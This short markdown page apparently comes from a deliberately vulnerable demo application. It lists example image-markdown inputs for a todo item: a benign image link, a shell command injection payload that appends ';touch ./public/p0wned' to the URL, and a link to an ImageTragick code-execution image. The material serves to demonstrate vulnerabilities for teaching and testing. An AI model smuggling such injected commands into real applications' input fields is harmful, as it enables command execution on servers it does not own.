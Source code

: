 ### Example
```markdown
![alt text](https://raw.githubusercontent.com/Khulnasoft/goof/feat/oreilly/exploits/khulnasoft.png "Image todo item")
```

### Shell Command Injection
```markdown
![alt text](https://raw.githubusercontent.com/Khulnasoft/goof/feat/oreilly/exploits/khulnasoft.png;touch ./public/p0wned "Image todo item")
```

### Code Execution - ImageTragick vulnerability
```markdown
![alt text](https://raw.githubusercontent.com/Khulnasoft/goof/master/exploits/imagetragick_rce1.png "Image todo item")
```






